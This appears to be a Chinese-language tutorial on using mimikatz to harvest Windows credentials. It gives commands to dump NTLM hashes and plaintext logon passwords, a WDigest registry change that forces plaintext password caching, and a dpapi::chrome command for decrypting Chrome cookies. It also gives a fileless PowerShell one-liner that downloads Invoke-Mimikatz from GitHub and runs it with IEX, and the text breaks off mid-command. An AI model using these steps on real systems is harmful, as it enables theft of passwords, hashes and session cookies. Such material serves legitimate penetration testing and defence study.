 # minilatz使用



#### mimikatz基本使用 <a id="mimikatz-"></a>

以管理员运行后，可以随机打一些字符，进入如下界面

![](https://p408.ssl.qhimgs4.com/t012e4a1adec83a8eef.png)

输入aaa::aaa，可展示所有模块：

![](https://p408.ssl.qhimgs4.com/t017dbeb01a83b4a137.png)

可采用log命令，保存日志

#### 获取hash与明文用户口令 <a id="-hash-"></a>

```text
privilege::debug    
sekurlsa::logonPasswords
```

![](https://p408.ssl.qhimgs4.com/t016361c971300004a2.png)

从 Windows 8.1 和 Windows Server 2012 R2 开始，LM 哈希和“纯文本”密码将不在内存中生成,早期版本的Windows 7/8/2008 R2/2012 需要打 kb2871997 补丁。

这里只抓取到了NTLM

![](https://p408.ssl.qhimgs4.com/t0134784035cd53c350.png)

尝试破解1-CMD5

![](https://p408.ssl.qhimgs4.com/t010463126de57bbaee.png)

尝试破解2-ophcrack [https://www.objectif-securite.ch/ophcrack.php](https://www.objectif-securite.ch/ophcrack.php)

![](https://p408.ssl.qhimgs4.com/t015c667a60d0769037.png)

**修改注册表，启用摘要密码支持**

需要创建UseLogonCredential，并赋值为1

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```

重新登录后，再次运行

![](https://p408.ssl.qhimgs4.com/t016510abc43863eea5.png)

#### 使用mimikatz提取chrome中保存的cookie <a id="-mimikatz-chrome-cookie"></a>

首先把chrome保存cookie的文件拷贝到桌面上方便操作，这个文件在 C:\users\360sec\appdata\local\google\chrome\user data\default\cookies 命令行下拷贝的命令是： Copy 'C:\users\360sec\appdata\local\google\chrome\user data\default\cookies ' c:\users\360sec\desktop

![](https://p408.ssl.qhimgs4.com/t01a02a2d16c27bf4d0.png)

打开桌面上的mimikatz\_trunk文件夹，进入x64文件夹，打开mimikatz.exe

![](https://p408.ssl.qhimgs4.com/t01ec7784cfde966b93.png)

输入dpapi::chrome /in:c:\users\360sec\desktop\cookies /unprotect提取cookie

![](https://p408.ssl.qhimgs4.com/t01f0ca2be2f8390eb3.png)

#### 使用webbrowserpassview获取chrome保存的密码 <a id="-webbrowserpassview-chrome-"></a>

打开桌面上的webbrowserpassview文件夹

![](https://p408.ssl.qhimgs4.com/t01f551af30131fe50c.png)

打开webbrowserpassview.exe

![](https://p408.ssl.qhimgs4.com/t0157decef8d82e865b.png)

#### 使用Powershell版Mimikatz <a id="-powershell-mimikatz"></a>

一句话执行：

```text
powershell Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
```

无文件执行：

```text
powershell Iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1’);Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
```

Command 使用法与exe格式相同

```text
Invoke-Mimikatz -Comman
```



